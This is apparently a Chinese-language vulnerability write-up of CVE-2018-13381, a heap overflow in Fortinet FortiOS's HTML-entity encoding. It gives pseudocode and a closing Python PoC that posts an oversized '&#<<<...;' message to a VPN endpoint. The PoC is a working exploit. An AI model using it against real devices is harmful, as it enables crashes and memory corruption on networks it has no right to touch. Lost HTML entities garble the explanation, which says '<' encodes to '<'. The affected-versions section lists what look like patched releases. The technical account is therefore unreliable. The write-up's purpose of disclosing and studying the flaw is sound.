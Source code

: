 （CVE-2018-13381）Fortinet FortiOS 缓冲区错误漏洞
=================================================

一、漏洞简介
------------

Fortinet
FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。
Fortinet FortiOS
6.0.0版本至6.0.4版本、5.6.0版本至5.6.7版本和5.4及之前版本中存在缓冲区错误漏洞。该漏洞源于网络系统或产品在内存上执行操作时，未正确验证数据边界，导致向关联的其他内存位置上执行了错误的读写操作。攻击者可利用该漏洞导致缓冲区溢出或堆溢出等。

二、漏洞影响
------------

Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

三、复现过程
------------

在编码HTML实体代码时，有两个阶段。服务器首先计算编码字符串所需的缓冲区长度，然后将其编码到缓冲区。在计算阶段，例如，`<`字符编码为
`<`，占用5个字节。如果遇到任何以`&#`开头的字符，例如`<`，服务器会认为这个token已经被编码了，并直接计算其长度。像这样：

    c = token[idx];
    if (c == '(' || c == ')' || c == '#' || c == '<' || c == '>')
        cnt += 5;
    else if(c == '&' && html[idx+1] == '#')
        cnt += len(strchr(html[idx], ';')-idx);

然而，长度计算和编码过程之间将存在不一致，编码部分无法处理这种情况。

    switch (c)
    {
        case '<':
            memcpy(buf[counter], "<", 5);
            counter += 4;
            break;
        case '>':
        // ...
        default:
            buf[counter] = c;
            break;
        counter++;
    }

如果我们输入恶意字符串如`&#<<<;`，`<`仍将编码成`<`，所以编码结果应该是`&#<<<;`！这比预期的6个字节长得多，从而导致堆溢出。PoC：

    import requests

    data = {
        'title': 'x', 
        'msg': '&#' + '<'*(0x20000) + ';<', 
    }
    r = requests.post('https://www.0-sec.org:4433/message', data=data)
